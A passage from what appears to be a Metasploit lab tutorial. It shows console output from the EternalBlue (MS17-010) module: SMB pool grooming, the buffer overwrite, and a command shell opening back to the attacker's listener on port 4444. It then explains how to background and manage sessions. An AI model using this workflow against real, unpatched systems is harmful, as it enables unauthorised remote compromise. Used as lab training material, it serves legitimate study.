 ```bash
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.186.44:4444 -> 10.10.12.229:49366) at 2021-08-20 04:51:19 +0100
C:\Windows\system32>
```

Once a session is opened, you can background it using CTRL+Z or abort it using CTRL+C. Backgrounding a session will be useful when working on more than one target simultaneously or on the same target with a different exploit and/or shell.

**Backgrounding the session**
```bash
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

### Working with sessions
The sessions command will list all active sessions. The sessions command supports a number of options that will help you manage sessions better.

**Sessions help menu**
```bash
sf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -C   Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S   Row search filter.
    -c   Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i   Interact with the supplied session ID
    -k   Terminate sessions by session ID and/or range
```